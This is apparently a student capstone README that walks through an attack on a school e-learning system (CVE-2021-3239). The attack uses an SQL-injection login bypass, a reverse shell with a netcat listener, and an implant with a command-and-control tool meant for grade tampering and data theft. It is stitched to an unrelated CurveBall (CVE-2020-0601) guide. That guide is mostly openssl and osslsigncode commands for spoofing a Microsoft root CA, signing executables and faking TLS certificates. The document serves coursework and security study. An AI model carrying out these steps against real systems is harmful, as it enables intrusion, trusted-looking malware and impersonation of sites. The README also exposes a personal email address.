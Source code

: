# CS590J Capstone 

The general idea: Victim is a school education system that has all the grades and tons of student/teacher information. Let's assume this is all stored on the same machine and we can put all these files on the desktop. We are a student that wants to have malicious access to this system to modify school files (change our grades, attendance), spy on peer's information, and whatever teacher files are on the computer (data modification and exfil). There is a vulnerability in the system (CVE-2021-3239): "E-Learning System 1.0" (an actual piece of software submitted to an open source website which was used by a public school in the Philippines) is vulnerable to SQL injection and we are able to authenticate by SQL injecting an "or TRUE" into the unsanitized login screen and then gain a reverse shell or install an implant. From here the implant runs and we connect to it via a C2 software that we wrote so that we can choose which data and when to extract it or when to abort.

#How to setup the victim and environment
To test this out, generally follow the setup instructions here: https://www.sourcecodester.com/php/12808/e-learning-system-using-phpmysqli.html.
- First setup a virtual machine in virtualbox of windows 10 old version: https://drive.google.com/file/d/1OUPmqJ7JiYdY5jt7T7G9oDnN01usJs7v/view?usp=sharing. I gave it 32 GB storage and 7 GB RAM, but more is better of course. All future instructions are from this VM.
- Install XAMP version 7.2.33 onto this windows VM(this version is important) https://www.apachefriends.org/download.html. You will have to click more and then find version 7.2.33. Download the most frequently downloaded copy of this version.
- Install netcat through nmap https://nmap.org/
- Install the most recent version of Python and pip install requests and colorama (it's a lot easier to see colored text stand out)
- Follow the instructions in the first link to setup E-Learning System 1.0. This includes extracting the CAIWL program, running apache and mySQL, setting up a database.
- Execute the python script (exploit.py) from anywhere (on the VM unless you specify the ports from another machine - we need to modify the code if we want it to open a port onto another VM). 
```
python exploit.py
``` 
- From here there are two options: either install and run the implant (enter 'i' when it prompts you to) and connect to the c2 server in another window by doing
```
python c2.py
``` 
- ...or just gain a reverse shell without installing the implant where you have another window running:
```
ncat -l 9999
```
- All in all the reverse shell looks like so:
![Image of the Reverse Shell](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example.png)
- And the C2 looks like so:
![Image of the C2](https://github.com/yshneyderman/CS590J-Capstone/blob/main/example2.png)


## How to Setup GitHub
Generate SSH Keys
- sudo apt-get install git
- git config --global user.email "yealsh21@gmail.com"
- git config --global user.name "Yefim"
- ssh-keygen -t ed25519 -C "yealsh21@gmail.com"
- eval "$(ssh-agent -s)"
- ssh-add ~/.ssh/id_ed25519
- sudo apt-get install xclip
- xclip -selection clipboard < ~/.ssh/id_ed25519.pub

Add SSH Keys
- Login to GitHub, click profile, click settings and add SSH Key. Paste Key, give any title.

Clone the Repository
- git clone git@github.com:yshneyderman/CS590J-Capstone.git

Install Ruby:
- sudo apt update
- sudo apt install ruby

Adding changes (to a branch)
- git commit -a -m "What I changed"
- git push

#CurveBall (CVE-2020-0601) Exploit



## Usage
Create a certificate with the same public key and parameters of a trusted CA. This will be used as our spoofing CA. Set the generator to a value, where you know the private key. You can easily set the generator to the public key, and have a private key set to `1`, since `Q = dG`.

Next up, you create a certificate signing request with the extensions you wish to use, e.g. code signing or server authentication.

Sign this certificate request with your spoofed CA and CA key, and add the usage extensions.

Bundle the signed certificate request (now a regular certificate) with the spoofed CA, and you have a signed and trusted certificate. 

When Windows checks whether the certificate is trusted, it'll see that it has been signed by our spoofed CA. It then looks at the spoofed CA's public key to check against trusted CA's. Then it simply verifies the signature of our spoofed CA with the spoofed CA's generator - this is the issue.

If you choose to open your newly and signed, trusted certificate in Windows, it'll not recognize it as trusted, since it hasn't been tied to anything, thus it will not use the spoofed CA. The certificate must always present itself with the spoofed CA.

## Code Signing
*Please use this for educational and researching purposes only.* 

Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key can be of any type you want. It will be used to create a code signing certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

    openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs
The only thing left is to pack the certificate, its key and the spoofed CA into a PKCS12 file for signing executables.

    openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12
Sign your executable with PKCS12 file.

    osslsigncode sign -pkcs12 cert.p12 -n "Signed by ollypwn" -in 7z1900-x64.exe -out 7z1900-x64_signed.exe

## SSL/TLS
*Please use this for educational and researching purposes only.* 
Extract the public key from the CA and modify it according to the vulnerability:

    ruby main.rb ./MicrosoftECCProductRootCertificateAuthority.cer
Generate a new x509 certificate based on this key. This will be our own spoofed CA.

    openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt
Generate a new key. This key be of any type you want. It will be used to create a SSL certificate, which we will sign with our own CA.

    openssl ecparam -name secp384r1 -genkey -noout -out cert.key
Next up, create a new  certificate signing request (CSR). This request will oftenly be sent to trusted CA's, but since we have a spoofed one, we can sign it ourselves.

If you wish to change the domain name, edit `CN  = www.google.com` to `CN  = www.example.com` inside of `openssl_tls.conf`.

    openssl req -new -key cert.key -out cert.csr -config openssl_tls.conf -reqexts v3_tls
Sign your new CSR with our spoofed CA and CA key. This certificate will expire in 2047, whereas the real trusted Microsoft CA will expire in 2043.

    openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_tls.conf -extensions v3_tls
You can now use `cert.crt`, `cert.key`, and `spoofed_ca.crt` to serve your content. Again, remember to add the spoofed_ca.crt as a certificate chain in your server's HTTPS configuration.

See the usage example in [https://github.com/IIICTECH/-CVE-2020-0601---ECC-/blob/master/tls/index.js).

